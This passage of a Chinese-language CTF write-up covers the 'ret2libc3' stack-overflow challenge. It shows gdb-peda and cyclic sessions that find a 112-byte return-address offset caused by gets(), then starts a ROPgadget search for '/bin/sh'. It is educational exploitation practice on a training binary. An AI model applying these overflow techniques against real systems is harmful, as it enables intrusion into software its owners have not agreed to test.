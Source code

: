 存在gets函数，有栈溢出的可能，计算返回地址到可控输入的偏移量（这里使用另一种方法）

```plain
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
//拿到ebp的值为EBP: 0x6941414d ('MAAi')

gdb-peda$ pattern offset MAAi
MAAi found at offset: 108
//故偏移量为108+4=112
```

或者：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ gdb ret2libc3 
gdb-peda$ r
Starting program: /home/qufeng/Desktop/pwn1/ret2libc3 
No surprise anymore, system disappeard QQ.
Can you find it !?aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
//执行结果后半部分
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x62616164 in ?? ()    //出现溢出的位置

gdb-peda$ q
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ cyclic -l 0x62616164
112
```

3、找system地址及/bin/sh地址

```plain
$info functions         //没有system地址
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2libc3 --string "/bin/sh"
Strings information
============================================================
```
